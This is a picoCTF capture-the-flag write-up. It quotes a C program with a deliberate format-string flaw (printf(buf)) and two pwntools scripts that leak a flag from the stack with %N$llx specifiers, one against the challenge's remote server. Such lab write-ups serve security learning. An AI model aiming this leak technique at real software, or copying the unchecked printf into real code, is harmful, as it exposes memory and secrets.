

The binary can be downloaded here.
The source code is as below.
#include < stdio.h >
int main() {
char buf[1024];
char secret1[64];
char flag[64];
char secret2[64];
// Read in first secret menu item
FILE *fd = fopen("secret-menu-item-1.txt", "r");
if (fd == NULL){
printf("'secret-menu-item-1.txt' file not found, aborting.\n");
return 1;
}
fgets(secret1, 64, fd);
// Read in the flag
fd = fopen("flag.txt", "r");
if (fd == NULL){
printf("'flag.txt' file not found, aborting.\n");
return 1;
}
fgets(flag, 64, fd);
// Read in second secret menu item
fd = fopen("secret-menu-item-2.txt", "r");
if (fd == NULL){
printf("'secret-menu-item-2.txt' file not found, aborting.\n");
return 1;
}
fgets(secret2, 64, fd);
printf("Give me your order and I'll read it back to you:\n");
fflush(stdout);
scanf("%1024s", buf);
printf("Here's your order: ");
printf(buf);
printf("\n");
fflush(stdout);
printf("Bye!\n");
fflush(stdout);
return 0;
}
From the source code and the disassembly I could reconstruct the stack just when printf(buf) was called as below.

As you can see, since the flag was stored in the stack, I decided to use format string bug to leak the contents of the flag 8 bytes at a time.
The exploit code is as below. The first script gets the job done but it repeatedly creates new processes to get each part of the flag. This wasn't a problem for picoCTF, but for CTFs where creating a new process randomizes the flag each time, I made another script which leaks the flag in one go.
#!/usr/bin/python3
from pwn import *
def ex():
# context.log_level = "debug"
acc = b""
for query in range(14, 22):
# p = process("./format-string-1")
p = remote("mimas.picoctf.net", 53791)
p.recvline()
p.sendline(b"%%%d$llx" % query)
p.recvuntil(b": ")
r = int(p.recvline().strip(), 16)
unscrambled = p64(r)
print(unscrambled)
acc += unscrambled
p.close()
print(acc)
if __name__ == "__main__": ex()
#!/usr/bin/python3
from pwn import *
def ex():
context.log_level = "debug"
payload = b""
for query in range(14, 22):
payload += b"%%%d$llx" % query
if query != 21: payload += b"|"
p = process("./format-string-1")
p.recvline()
p.sendline(payload)
p.recvuntil(b": ")
r = map(lambda x: p64(int(x, 16)), p.recvline().strip().split(b"|"))
print(b"".join(r))
if __name__ == "__main__": ex()